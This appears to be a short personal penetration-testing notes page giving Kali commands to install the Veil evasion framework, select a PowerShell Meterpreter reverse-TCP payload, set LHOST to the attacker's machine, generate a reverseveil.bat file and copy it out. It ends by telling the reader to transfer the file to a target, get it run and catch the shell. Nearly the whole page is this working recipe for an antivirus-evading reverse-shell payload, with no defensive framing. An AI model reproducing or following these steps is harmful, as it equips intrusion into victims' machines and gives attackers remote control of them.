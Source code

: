 ```bash - kali
sudo apt install veil
```

```bash - kali
veil
```

Next through all the prompts if setting up for the first time.

If told to, run:
```bash - kali
/usr/share/veil/config/setup.sh --force --silent
```

```bash - kali
use 1
```

```bash - kali
list
```

example: `powershell/meterpreter/rev_tcp.py`

```bash - kali
use 22
```

```bash - kali
set LHOST $KALI
```

```bash - kali
options
```

```
generate
```

```
reverseveil
```

```
cp /var/lib/veil/output/source/reverseveil.bat .
```

[[10._TOOLS/Metasploit#Meterpreter Listener 1 Liner]]

Transfer to target, get it ran, catch shell.
